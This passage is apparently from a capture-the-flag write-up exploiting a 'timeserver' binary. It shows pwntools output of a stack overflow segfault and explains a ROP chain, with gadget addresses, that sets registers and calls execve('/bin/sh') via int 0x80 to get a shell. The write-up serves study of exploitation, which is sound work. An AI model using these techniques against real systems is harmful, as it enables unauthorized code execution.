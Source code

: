 When we run the script we get a segfault without the warning about stack smashing:

```
[+] Starting local process './timeserver': pid 5037
b'Welcome to the time and date server!\nPlease select from the following options.\n\tT = Show current time.\n\tD = Show current date.\n'
b'Welcome to the time and date server!\nPlease select from the following options.\n\tT = Show current time.\n\tD = Show current date.\n'
b'Invalid option: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
Traceback (most recent call last):
...
EOFError
[*] Process './timeserver' stopped with exit code -11 (SIGSEGV) (pid 5037)
```

Now that we are able to overwrite the return address it is time for our rop chain. We are going to make a chain of gadgets in order to call `execve("/bin/sh")`. In order to do this we need to set ecx to 0, ebx to the address in memory for the string /bin/sh, and set eax to 11 as that is the system call for execve. Once all of the registers are set to these values we can call int 0x80 to perform the function call. 

I used a combination of ropper and binja in order to find the gadgets but the gadgets I ended up using were:

```
08066218  58                 pop     eax {var_c}
08066219  5a                 pop     edx {var_8}
0806621a  5b                 pop     ebx {__saved_ebx}  {_GLOBAL_OFFSET_TABLE_}
0806621b  c3                 retn     {__return_addr}
```
I used this gadget in order to set eax, edx, and ebx to values on the stack which I had full control over.


```
08067de4  8990ac180000       mov     dword [eax+0x18ac], edx  {perturb_byte}
08067dea  c3                 retn     {__return_addr}
```

I used this gadget in order to move whatever was in edx to a memory region defined by eax + 0x18ac.

```
08073700  f30f6f48c3         movdqu  xmm1, xmmword [eax-0x3d]
```

The last two opcodes of this gadget were 48 and c3 which by themselves equalled dec eax and then ret, I used these to decrement the value stored in eax.

```
0804ad4f  31c9               xor     ecx, ecx  {0x0}
0804ad51  cd80               int     0x80
```

And finally, I used this gadget in order to clear out ecx and then perform the system call. 
